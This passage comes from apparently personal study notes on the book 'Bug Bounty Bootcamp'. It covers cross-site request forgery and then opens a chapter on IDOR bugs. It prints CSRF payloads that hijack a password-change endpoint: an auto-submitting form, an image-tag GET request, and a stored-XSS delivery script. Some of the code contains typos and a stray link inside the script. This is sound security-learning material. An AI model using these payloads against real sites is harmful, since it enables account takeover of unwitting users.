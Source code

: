 - The attacker then host an auto-submitting form to execute the CSRF:

```
<html>
  <form method="POST" action="https://email.example.com/set_password" id="csrf-form">
    <input type="text" name="new_password" value="this_account_is_now_mine">
    <input type='submit' value="Submit">
  </form>
  <script>document.getElementById("csrf-form").submit();</script>
</html>
```

2. CSRFs that can be executed through a GET request can embed the request as an image directly through an image posted to a forum. So anyone who views the forum page would be affected:
   `<img src="https://email.example.com/set_password>new_password=this_account_is_now_mine">`

3. Attackers can deliver a CSRF payload to a large number of users by exploiting stored XSS. If a forum comment field if vulnerable to stored XSS the payload can be delivered to all visitors who visit the forum:

```
<script>
  document.body.innerHTML += "
    <form method="POST" action="https://email.example.com/set_password" id="csrf-form">
      <input type="text" name="new_password" value"this_account_is_now_mine">
      <input type='submit' value="Submit">https://github.com/Xerips/BookNotes/blob/main/BugBountyBootcamp/BugBountyBootcamp.md#chapter-21-information-disclosure)
    </form>;
  document.getElementById("csrf-form").submit();
</script>
```

**Finding Your First CSRF!**

1. Spot the state-changing actions on the application and keep a ntoe on their locations and functionality.
2. Check these functionalities for CSRF protection. If you can't spot any protections, you might have found a vulnerability!
3. If any CSRF protection mechanisms are present, try to bypass the protection by using the protection-bypass techniques mentioned in this chapter.
4. Confirm the vulnerability by crafting a malicious HTML page and visisting that page to see if the action was executed.
5. Think of strategies for delivering your payload to end users.
6. Draft your first CSRF report!

[Back to TOC](https://github.com/Xerips/BookNotes/blob/main/BugBountyBootcamp/BugBountyBootcamp.md#table-of-contents)

### Chapter 10: Insecure Direct Object References (IDORs)

"Like XSS and open redirects, _insecure direct object references_ (IDORs) are a type of bug present in almost every web application. They happen when the application grants direct access to a resource based on the user's request, without validation."

**Mechanisms**
